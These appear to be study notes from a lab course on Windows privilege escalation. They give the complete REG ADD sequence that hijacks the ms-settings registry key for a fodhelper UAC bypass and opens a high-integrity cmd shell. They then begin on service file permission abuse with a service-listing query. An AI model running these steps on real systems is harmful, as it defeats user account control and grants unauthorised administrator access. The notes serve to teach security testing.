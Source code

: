 4- One particular result: HKCU:\\Software\\Classes\\ms-settings\\shell\\open\\command  
  
To figure why it's trying to access that key, change filter 4^:  
  
5- Results show that after attempting to mod that key, not finding it, it then successfully finds it in the HKEY_CLASSES_ROOT (HKCR) hive  
  
Steps:  
1. Add key in HKCU hive (where it looks for it first)  
2. Add empty value for _DelegateExecute_ to force execution from COM object to program  
3. Add our binary under _Default_ value  
  
1. Add the missing key w/ reg in order to abuse it:  
```powershell
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
```
![[reg_key.png]]

To ensure we don't hijack execution through the COM object, we'll add an empty entry for _DelegateExecute_.
	fodhelper discovers the empty value, follows the specs for _application protocols_ & will look for a program in the _Default_ key  
  
  
2. Add empty value to _DelegateExecute_:  
```powershell
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
```
.
	**/v** - Value name  
	**/t** - Type  
  
To verify, remove filter 3^ and change to:  
Result - Is - SUCCESS - then - Include  
  
  
3. Add our own executable (cmd.exe) to _Default_ key:  
```powershell
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```
.  
	**/d** - Specify new registry key value  
	**/f** - Add value silently  
  
Running fodhelper again will throw a High-Integrity cmd shell  



### Insecure File Perms

Exploit services that run as _nt authority\\system_.  
```powershell
PS C:\Users\student> Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}  
  
Name                  State   PathName  
----                  -----   --------  
...  
RpcSs                 Running C:\Windows\system32\svchost.exe -k rpcss  
SamSs                 Running C:\Windows\system32\lsass.exe  
Serviio               Running C:\Program Files\Serviio\bin\ServiioService.exe  
ShellHWDetection      Running C:\Windows\System32\svchost.exe -k netsvcs  
...
```
